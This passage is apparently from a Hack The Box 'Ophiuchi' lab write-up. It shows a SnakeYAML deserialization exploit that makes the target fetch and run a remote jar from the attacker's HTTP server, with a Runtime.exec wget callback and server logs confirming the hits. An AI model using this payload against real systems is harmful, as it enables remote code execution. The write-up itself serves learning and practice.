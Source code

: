 Despite the "error" message on the website we still got a hit on our Python
HTTP server.

    ::text
    $ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.98.255 - - [20/Feb/2021 04:25:51] "GET / HTTP/1.1" 200 -

A link in the [medium article](https://medium.com/@swapneildash/snakeyaml-deserilization-exploited-b4a2c5ac0858)
lead us to a [github repository for a YAML payloads generator](https://github.com/artsploit/yaml-payload).

We change the paylaod to `Runtime.getRuntime().exec("wget http://10.10.14.16:8000/boom");`
and send it to the YAML parser


    :::text
    !!javax.script.ScriptEngineManager [
      !!java.net.URLClassLoader [[
        !!java.net.URL ["http://10.10.14.16:8000/yaml-payload.jar"]
      ]]
    ]

We got an other Java error "java.lang.UnsupportedClassVersionError: artsploit/AwesomeScriptEngineFactory has been compiled by a more recent version of the Java Runtime (class file version 60.0), this version of the Java Runtime only recognizes class file versions up to 55.0".

On my Kali Linux I am using `openjdk` with Java 16 so our `javac` produced a
newer version of the code.

    :::text
    /usr/lib/jvm/java-16-openjdk-amd64/bin/javac

We just install Java 11 using `sudo apt-get install openjdk-11-jdk`
and run the specific Java 11 compiler. Then we got a hit with our "second" payload

    :::text
    kali@kali:~/pown/htb_Ophiuchi/yaml-payload$ /usr/lib/jvm/java-11-openjdk-amd64/bin/javac src/artsploit/AwesomeScriptEngineFactory.java
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    kali@kali:~/pown/htb_Ophiuchi/yaml-payload$ jar -cvf yaml-payload.jar -C src/ .
    Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
    added manifest
    adding: artsploit/(in = 0) (out= 0)(stored 0%)
    adding: artsploit/AwesomeScriptEngineFactory.class(in = 1620) (out= 680)(deflated 58%)
    adding: artsploit/AwesomeScriptEngineFactory.java(in = 1493) (out= 404)(deflated 72%)
    ignoring entry META-INF/
    adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
    adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
    kali@kali:~/pown/htb_Ophiuchi/yaml-payload$ python3 -m http.server
    Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
    10.129.98.255 - - [20/Feb/2021 04:47:15] "GET /yaml-payload.jar HTTP/1.1" 200 -
    10.129.98.255 - - [20/Feb/2021 04:47:15] "GET /yaml-payload.jar HTTP/1.1" 200 -
    10.129.98.255 - - [20/Feb/2021 04:47:15] code 404, message File not found
    10.129.98.255 - - [20/Feb/2021 04:47:15] "GET /boom HTTP/1.1" 404 -
